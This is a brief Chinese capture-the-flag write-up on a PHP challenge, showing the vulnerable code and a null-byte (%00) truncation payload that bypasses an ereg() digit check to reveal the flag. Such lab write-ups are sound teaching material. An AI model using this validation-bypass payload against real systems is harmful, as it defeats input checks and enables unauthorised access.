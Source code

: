 正则表达式匹配。

存在%00截断漏洞。



列题：

南邮ctf:http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php

代码审计：

```javascript
view-source:
    if (isset ($_GET['nctf'])) {
        if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
            echo '必须输入数字才行';
        else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
            die('Flag: '.$flag);
        else
            echo '骚年，继续努力吧啊~';
    }
```

必须输入数字，且数字中含有#biubiubiu.

看到ereg函数，百度存在%00截断漏洞

构造payload:

```javascript
?nctf=1333%00#biubiubiu
```

400错误。

将#号改为%23即可返回flag.